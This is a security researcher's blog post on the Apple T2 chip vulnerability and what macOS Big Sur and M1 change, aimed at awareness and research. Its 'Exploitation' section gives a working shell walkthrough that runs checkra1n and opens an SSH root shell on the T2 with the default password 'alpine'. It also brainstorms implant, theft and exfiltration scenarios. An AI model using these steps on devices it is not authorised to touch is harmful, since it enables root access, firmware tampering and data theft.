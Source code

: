 +++
date = "2020-10-16T09:16:31+02:00"
title = "macOS Big Sur, the T2rminator?"
layout = "blog"
draft = false
+++

**Questions raised since the last blog post and the recent release of macOS Big Sur and the M1 chip require some clarification.**

## Preface

My previous blog post around the T2 vulnerabilities on Apple hardware caused a wave of news articles describing the issue, ranging from terrible copied to actually being written in a better way. I'm glad the post triggered such a wide reaction and reached its end goal: awareness.

A couple of interesting links if you aren't up to speed around the issue:

- Blog *T2 Research Team*: [On bridgeOS / T2 Research](https://blog.t8012.dev/on-bridgeos-t2-research/)
- Article *AppleInsider*: [Apple's T2 chip has an unfixable vulnerability that could allow root access](https://appleinsider.com/articles/20/10/05/apples-mac-t2-chip-has-an-unfixable-vulnerability-that-could-allow-root-access)
- Podcast *The Checklist*: [The T2 Vulnerability with Patrick Wardle](https://www.securemac.com/checklist/checklist-202-the-t2-vulnerability-with-patrick-wardle)

## Recap

A tiny recap of what was discussed [in the previous blog post "Crouching T2, Hidden Danger"](/blog/crouching-t2-hidden-danger/):

- The T2 security chip is used for verifying your macOS installation to be safe, keep track of encryption keys, handle touchID/faceID, handle keyboard and do other stuff such as hardware decoding of media formats.
- The T2 security chip in 2018-2020 Mac models is based on the A12 chip, which is vulnerable for the same checkm8 vulnerability.
- The chip can be triggered in booting in DFU mode without any physical attestation (such as holding in the power button) by sending arbitrary packets of information over USB Power Delivery (called "Vendor Defined Messages" or VDMs).
- This can be combined with checkra1n & blackbird vulnerabilities to gain **root** access to the T2 chip by restarting the T2 in DFU mode.

## Exploitation

And now, the moment you've all been waiting for. Let's jailbreak a T2 chip!

```shell
# install devtools
$ xcode-select --install

# check the script & install homebrew
$ /bin/bash -c "$(curl -fsSL https://raw.githubusercontent.com/Homebrew/install/master/install.sh)"

# install packages
$ brew install libplist automake autoconf pkg-config openssl libtool llvm libusb

# git clone, autogen.sh, make & make install
# https://github.com/sbingner/ldid
# https://github.com/libimobiledevice/libusbmuxd
# https://github.com/libimobiledevice/libimobiledevice
# https://github.com/libimobiledevice/usbmuxd

# get the checkra1n beta from https://checkra.in/#release
# and verify the integrity hash matches
$ shasum -a256 checkra1n.app
d4def982494bc0b99c6df57dc94338c205902aaa8949e9ae046812ed57743ccb

# put your macOS device in DFU mode using the Apple Support document
# https://support.apple.com/guide/apple-configurator-2/revive-or-restore-mac-firmware-apdebea5be51/mac

# verify you can see your Mac in DFU mode
$ ioreg -p IOUSB
+-o Root <class I0RegistryEntry, id 0x100000100, retain 17>
  +-o AppleUSBXHCI Root Hub Simulation@14000000 <class AppleUSBRootHubDevice, id 0x100000312, registered, matched, active, busy 0 (2 ms), retain 14>
    +-o Apple Internal Keyboard / Trackpad@14400000 <class AppleUSBDevice, id 0x1000041a8, registered, matched, active, busy @ (2 ms), retain 16>
    +-o BRCM20702 Hub@14300000 <class AppleUSBDevice, id 0x10000420d, registered, matched, active, busy @ (@ ms), retain 12>
    | +-o Bluetooth USB Host Controller@14330000 <class AppleUSBDevice, id 0x100004223, registered, matched, active, busy 0 (1 ms), retain 17>
    +-o Apple Mobile Device (DFU Mode)@14100000 <class AppleUSBDevice, id 0x100004428, registered, matched, active, busy @ (1 ms), retain 14>

# Run checkra1n exploitation & watch the target reboot
$ sudo ./checkra1n.app/Contents/MacOS/checkra1n --cli --verbose-boot --verbose-logging

# Bring up a proxy to dropbear
$ iproxy 2222 44 &

# Connect to T2 with password 'alpine' & profit
$ ssh -p 2222 root@127.0.0.1
```

## Video Examples

And if you can't try out yourself, here are a couple of videos:

### Auto Jailbreaking the T2 Chip

In this example, we are going to jailbreak the T2 chip *without any user interaction*.
This shows the potential for any automated malicious attacks that are possible with hardware inserts.
Some magazines mentioned physical access to be difficult to exploit, but let's not forget that leaving malicious USB sticks is one of the most widely used attack methods for (physical) penetration testing. Or think about [the OMG cable](https://shop.hak5.org/products/o-mg-cable).

[!["auto jailbreak the T2"](https://i.ytimg.com/vi/LRoTr0HQP1U/hqdefault.jpg)](https://www.youtube.com/watch?v=LRoTr0HQP1U "Auto Jailbreaking the T2")

### Replacing the EFI on a Mac

And to prove that we do have in fact full operability on the system, in this case we are swapping the [MacEFI](https://apple.stackexchange.com/questions/98315/what-does-boot-efi-actually-do) with a modified version with a different boot logo.
This basically proves anything is possible once you have T2 access, since it is situated so early in the boot process.

[!["Wiping and Restoring a locked T2 MacBook"](https://i.ytimg.com/vi/uDSPlpEP-T0/hqdefault.jpg)](https://www.youtube.com/watch?v=uDSPlpEP-T0 "Wiping and Restoring a locked T2 MacBook")

## Attack Scenarios

So now we've covered the official things, let's brainstorm for a bit what attack scenarios are possible:

Attack Vectors:

- Supply Chain Attacks: intercepting orders & installing an USB implant in your Mac  
- Malicious peripherals: using various non-Apple peripherals with Macs is very common
- Physical access: stealing your Mac

Potential Attacks:

- There is no reason not to think that state actors have been unlocking Macs & iPhones using this method for a while.
- You buy a new charger or USB adapter from AliExpress or any other market, which actually carries an implant that jailbreaks your T2 and installs kernel malware when connected.
- Someone steals your powered down or locked MacBook and steals your data on disk and iCloud while disabling *Find My* and asks for a ransom.
- Someone steals your Mac, replaces your macOS installation with something infected & puts it back, stealing your bank credentials or spying on you.
- Someone sells you a malicious charger (or replaces yours) which auto-infects your macOS installation on every boot.
- A batch of Macs destined for **a government facility** are intercepted, USB-C hardware implants are inserted and data is exfiltrated over a cellular connection to another state actor. Remember [the SuperMicro hack controversy](https://www.zdnet.com/article/security-researcher-cited-in-supermicro-chip-hack-investigation-casts-doubt-on-story/)? *It's that on steroids.*
- A bunch of malicious cables which are sold to a research facility ship keystrokes to a remote server, allowing for mass theft of intellectual property.

*Fun fact: did you know that your Mac discloses its serial number to every charger connected? Your serial is not so secret after all.*

## Mitigations

1. Supply Chain Attacks : trust on Apple and other researchers to do their job? :-)
2. Malicious peripherals : buy accessories (and Macs for that matter) only from official and reputable shops.
3. Physical Access : keep a close eye on your Mac and [remove the device from iCloud](https://support.apple.com/guide/icloud/remove-a-device-mmfc0eeddd/icloud) in case of theft.
4. Buy a new Mac with a T3 chip :-(
5. Verify your EFI payload with [efivalidate](https://github.com/t8012/efivalidate).
6. Update your Mac! macOS Big Sur includes a couple of mitigations described below.

## Let's add big Sur!

macOS Big Sur finally brings some new security features to the masses, bringing macOS more up to speed compared to its iOS kin:

1. Installing profiles is not longer possible via CLI, requiring graphical confirmation in System Settings or a full MDM enrollment.
This will prevent malware installing malicious profiles for persistence or security degradation like disabling the firewall.

2. Signed System Volumes (SSV) on your boot disk **and the T2 with bridgeOS 5** ensure files on the filesystem are checked for integrity on boot. Only a valid *snapshot* of your system volume is mounted instead of a full copy which is mounted read-only.

3. Kernel extensions are now supposed to be installed as System Extensions which run in user-space. Kernel & System extensions are also stored in a read-only portion in memory.

4. Modifications to the root certificate store now require graphical Administrator3 approval.

And most probably more that didn't reach the news yet. More to come!

## So will M1 fix it all?

The newer Apple Silicon Macs still sport a T-chip in the System-on-a-Chip, but we do not know yet whether this is a revised versionn (T3?).

Moving different things to the same SoC should at least remove some threat vectors such as Thunderbolt firmware attacks.
In addition, simplifying architecture (such as moving so silicon comparable to the A mobile chips) will always benefit security.
There is no news yet on what kind of T-chip is included in the M1 chip tough, so further research is required.
All we can say for now: it's most probably safer than current Intel-based Macbooks.

*But do you -really- care tough? The new chip's a beast!* As proven by various benchmarks, the *cheapest* MacBook now outperforms the *most expensive* one.
But if you -can- wait, I really suggest to wait for the M2 chip which will most probably blow us away like we've never seen.

## One More Thing

But I shouldn't always bring bad news.

The checkra1n team will be releasing [a T2 SDK](https://github.com/t8012/t2sdk) to develop applications for the T2 bridgeOS to facilitate security research on the T2 platform, along with [a public Wiki page](https://wiki.t8012.dev/) to help others investigate too.

They will also be releasing [a USB-PD screamer cable](https://blog.t8012.dev/plug-n-pwn/#usb-c-debug-probe) allowing others to investigate the USB-PD protocol used by USB-C devices and find new vulnerabilities in this NDA'd Intel protocol.
